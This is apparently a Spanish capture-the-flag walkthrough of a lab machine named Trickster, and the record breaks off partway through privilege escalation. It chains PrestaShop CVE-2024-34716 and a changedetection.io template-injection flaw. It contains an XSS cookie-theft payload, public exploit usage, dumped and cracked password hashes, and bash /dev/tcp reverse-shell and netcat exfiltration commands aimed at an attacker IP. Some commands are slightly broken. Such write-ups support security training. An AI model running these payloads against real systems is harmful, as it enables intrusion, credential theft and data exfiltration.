 #XSS 
`nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.34 -oG allPorts`
`nmap -p22,80 -sCV 10.10.11.34 -oN targeted`
```python
22/ssh
80/http
```


`gobuster vhost -u http://trickster.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 200 -r --append-domain`
```js
10.10.11.34     trickster.htb shop.trickster.htb
```

Utiliza un `prestashop` que es como un Wordpress para ecomerce

Encontramos en `robots.txt` el directorio `http://shop.trickster.htb/.git/`

Usaremos la herramienta [[GITHACK]] `https://github.com/lijiejie/GitHack.git`
`python3 githack http://shop.trickster.htb/.git/`

Nos traerá toda la web a nuestra maquina y la podemos ver navegando a sus directorios
Encontramos el siguiente directorio de panel de login de Prestashop `http://shop.trickster.htb/admin634ewutrx1jgitlooaj/index.php`

Encontramos la versión y encontramos que tiene un CVE `CVE-2024-34716`
`https://ayoubmokhtar.com/post/png_driven_chain_xss_to_remote_code_execution_prestashop_8.1.5_cve-2024-34716/`

En el PoC nos explica que podemos crear un falso archivo `.png` en el cual podemos incluir contenido JavaScript que será interpretado, por lo que se acontecería un XXS
Este archivo se puede incluir en la web `http://shop.trickster.htb/contact-us`

Creamos el fichero `test.png` con el contenido `<script src="http://10.10.14.18/malicius.js"></script>`

El servicio web hace la solicitud al recurso que hemos levantado en el server de Python

Podemos probar a listar la cookie de sesión `<script src="http://10.10.14.18/?cookie=" + document.cookie></script>`

Como el HttpOnly esta en True no nos permite obtener la cookie

EN el PoC nos dice que hay que subir un tema malicioso podemos usar el repositorio `https://github.com/aelmokhtar/CVE-2024-34716` que nos lo automatiza

Este script nos automatiza todo el proceso de ejecución devolviéndonos una Reverse Shell directamente

`python3 exploit.py --url "http://shop.trickster.htb" --email test@test.com --local-ip 10.10.14.18 --admin-path admin634ewutrx1jgitlooaj
`
Obtendremos una reverse shell como el usuario
Y hacemos un tratamiento de la TTY para que podamos trabajar mas cómodamente

En nuestro directorio acctual encontramos el directoriuo de `prestashop` buscamos por archivos de configuracion `find . -name \*conf\*` y encontramos la siguiente ruta `app/config`  buscamos por archivos que contengan la plabra password `grep -r -i "password"`y encontramos un archivo llamdo `parameters.php`

Y encontramos el usuario de la base de datos 
```ad-hint 
ps_user::prest@shop_o
```

Nos conectamos a la base de datos con el usuario y password encontrados:
`mysql -ups_user -pprest@shop_o -D prestashop`

Al haber muchas tablas se puede filtrar de la siguiente forma
`select table_name from information_schema.columns where column_name = 'email' and table_schema = database();`

Lo que nos hace es: d3e la base de datos actual de todas las tablas muéstrame todas las columnas que contengan la palabra email

Encontramos que en la tabla de empledos es donde se encuentran todos los datos mas relevantes;
`describe ps_employee;`

Obtenemos los usuarios y las contraseñas:
`select email,passwd from ps_employee;`

```ad-hint
admin@trickster.htb

$2y$10$P8wO3jruKKpvKRgWP6o7o.rojbDoABG9StPUt0dR7LIeK26RdlB/C

james@trickster.htb

$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm
```

Para esos hashes los cuadramos en un archivo y se los pasamos ha [[HASCAT]] el cual nos dirá diferentes modos que debemos de probar para decodearlo ` hashcat hashes /usr/share/wordlists/rockyou.txt -O `

Nos indica que son bcrypt y tendremos que usar el siguiente parámetro
`hashcat hashes /usr/share/wordlists/rockyou.txt -O -m 3200`

Encontramos la contraseña `alwaysandforever` para el usuario `james`
Y conseguiremos pivotar a este usuario

```ad-hint
james::alwaysandforever
```
## Escalada de privilegios
En la búsqueda de binarios SUID no encontramos nada que podamos escalar `find / -perm -4000 2>/dev/null`

Buscaremos capabilities `getcap -r / 2>/dev/null` y tampoco encontramos ninguna que nos pueda servir

Buscamos los puertos abiertos `ss -nltp` tampoco encontramos nada

Buscamos en los procesos con `ps -faux` tampoco encontramos nada útil

Al hacer `hostname -I` encontramos otra IP diferente, encontrando un docker instalado
Para hacer un reconocimiento de las maquinas docker podemos hacer un código para identificar las IP que hay
```bash
#!/bin/bash

for i in $(seq 1 254); do
        timeout 1 bash -c "ping -c 1 171.17.0.$i" &>/dev/null && echo "[+] Host 172.17.0.$i - ACTIVE" &
done; wait
```

Nos encuentra activo el host `.2`

Vamos a ver que puertos tiene abiertos la maquina creando el siguiente script
```bash
#!/bin/bash

for port in $(seq 1 65535); do
        timeout 1 bash -c "echo '' > /dev/tcp/172.17.0.2/$port" &>/dev/null && echo "[+] Puerto $port - OPEN" &
done; wait
```

Nos encuentra el puerto `5000` abierto
Y haciendo un `curl` vemos que se trata de una pagina web `curl 172.17.0.2:5000`

Para desde nuestro equipo poder ver la maquina te haga port fordwarding con ssh `ssh james@10.10.11.34 -L 5000:172.17.0.2:5000`

Ahora desde buestra maquina accedemos a `http://localhost:5000` y nos muestra como un panel de login corriendo con CHANGEDETECTION.IO v0.45.20

Buscamos esto en internet a ver si encontramos información sobre ello vemos que tiene un un `CVE-2024-32651` el cual permite `SSTI` que permite acabarlo en un `RCE`

Primero deberemos de ganar acceso a la interfaz y vemos que se reutiliza la password de james y estaríamos dentro de la web

Seguiremos el PoC `https://github.com/advisories/GHSA-4r7v-whpg-8rx3` lo primero que tenemos que hacer es crear un falso `index.html` y levantar un servidor con Python

Añadimos la url apuntando al servidor que hemos levantado 
En edit cambiamos el timer a menos tiempo y en la zona de notifications añadimos:
- Notification URL list `get://10.10.11.34:8882`
- Notification body `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i /dev/tcp/<IP_Atacante>/445 0>&1"').read() }}`

En nuestra maquina atacante nos ponemos en escucha `nc -nlvp 445` y realizamos cualquier cambio en el `index.html` para obtener la shell
Hemos obtenido una shell como root dentro del contenedor  con IP `172.17.0.2:5000`  una vez obtenida la shell hacemos un tratamiento de esta

Si navegamos por los directorios encontramos en la raíz un directorio `/datastore`
En el directorio `Backup` encontramos un `.zip` nos lo traemos a nuestra maquina atacante de la siguiente forma:
Maquina atacante -> `nc -nlvp 443 > archivo.zip`
Maquina victima -> `cat < archivo.zip > /dev/tcp/>IP_Atcante>/443`

Descomprimimos el archivo, y vemos que en una carpeta hay un archivo `.br`


